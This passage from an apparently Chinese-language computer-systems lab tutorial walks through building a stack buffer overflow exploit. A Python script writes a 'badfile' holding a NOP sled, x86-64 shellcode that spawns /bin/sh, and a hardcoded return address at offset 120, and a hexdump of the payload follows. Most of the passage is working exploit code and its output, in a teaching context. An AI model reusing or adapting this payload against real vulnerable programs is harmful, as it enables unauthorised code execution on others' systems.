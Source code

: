 ### 3.确定 badfile 文件结构

```python{.line-numbers}
import sys

shellcode = (
        "\x48\x31\xc0"
        "\x50"
        "\x48\xbb\x2f\x62\x69\x6e\x2f"
        "\x2f\x73\x68"
        "\x53"
        "\x48\x89\xe7"
        "\x50"
        "\x57"
        "\x48\x89\xe6"
        "\x48\x31\xd2"
        "\xb0\x3b"
        "\x0f\x05"
).encode('latin-1')

content = bytearray(0x90 for i in range(300))

start = 300 - len(shellcode)
content[start:] = shellcode

ret = 0x7fffffffdd90 + 50
content[120:128] = (ret).to_bytes(8, byteorder='little')

file = open("badfile", "wb")
file.write(content)
file.close()
```

上面就是我们按照 32 位模式来编写的 64 位 exploit.py 文件，在距离 buffer 偏移量 120 的地方（也就是返回地址处 **`0x7fffffffdd90+8`**）保存恶意代码的跳转地址 **`0x7fffffffdd90+50`**，并且将 shellcode 放到 badfile 文件的末尾。现在运行 exploit.py 文件，并使用 hexdump 查看 badfile 这个二进制文件得到的结果如下：

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ hexdump -C badfile -n 300 -v
00000000  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000010  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000020  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000030  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000040  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000050  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000060  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000070  90 90 90 90 90 90 90 90  c2 dd ff ff ff 7f 00 00  |................|
00000080  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000090  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
000000a0  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
000000b0  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
000000c0  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
000000d0  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
000000e0  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
000000f0  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000100  90 90 90 90 90 90 90 90  90 90 90 90 90 90 48 31  |..............H1|
00000110  c0 50 48 bb 2f 62 69 6e  2f 2f 73 68 53 48 89 e7  |.PH./bin//shSH..|
00000120  50 57 48 89 e6 48 31 d2  b0 3b 0f 05              |PWH..H1..;..|
0000012c
```
